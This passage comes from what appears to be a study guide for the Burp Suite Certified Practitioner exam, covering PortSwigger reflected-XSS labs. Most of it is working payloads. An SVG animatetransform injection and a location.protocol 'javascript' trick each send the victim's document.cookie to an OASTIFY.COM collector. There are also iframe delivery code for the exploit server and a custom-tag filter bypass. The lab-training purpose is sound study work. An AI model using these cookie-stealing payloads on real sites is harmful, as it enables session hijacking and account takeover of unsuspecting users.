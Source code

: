 ### Bypass Blocked Tags
> Application controls give message, _**"Tag is not allowed"**_ when inserting basic XSS payloads, but discover SVG mark-up allowed using above [methodology](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study?tab=readme-ov-file#identify-allowed-tags). This payload steal my own session cookie as POC.

```html
https://TARGET.net/?search=%22%3E%3Csvg%3E%3Canimatetransform%20onbegin%3Ddocument.location%3D%27https%3A%2F%2FOASTIFY.COM%2F%3Fcookies%3D%27%2Bdocument.cookie%3B%3E
```

> Place the above payload on exploit server and insert URL with search value into an `iframe` before delivering to victim in below code block.

```html
<iframe src="https://TARGET.net/?search=%22%3E%3Csvg%3E%3Canimatetransform%20onbegin%3Ddocument.location%3D%27https%3A%2F%2FOASTIFY.COM%2F%3Fcookies%3D%27%2Bdocument.cookie%3B%3E">
</iframe>
```

[![svg animatetransform XSS](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/svg-animatetransform-xss.png)](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/images/svg-animatetransform-xss.png)

[PortSwigger Lab: Reflected XSS with some SVG markup allowed](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed)

### XSS Assign protocol

> Lab to test XSS into HTML context with nothing encoded in search function. Using this lab to test the **Assignable protocol with location** `javascript` exploit _**identified**_ by [PortSwigger XSS research](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#assignable-protocol-with-location). In the payload is the `%0a` representing the ASCII newline character.

```html
<script>location.protocol='javascript';</script>#%0adocument.location='http://OASTIFY.COM/?p='+document.cookie//&context=html
```

[![XSS protocol location](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/xss-protocol-location.png)](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/images/xss-protocol-location.png)
[PortSwigger Lab: Reflected XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded)
### Custom Tags not Blocked

> Application respond with message _**"Tag is not allowed"**_ when attempting to insert XSS payloads, but if we create a custom tag it is bypassed.

```html
<xss+id=x>#x';
```

_**Identify**_ if above custom tag is not block in search function, by observing the response. Create below payload to steal session cookie out-of-band.
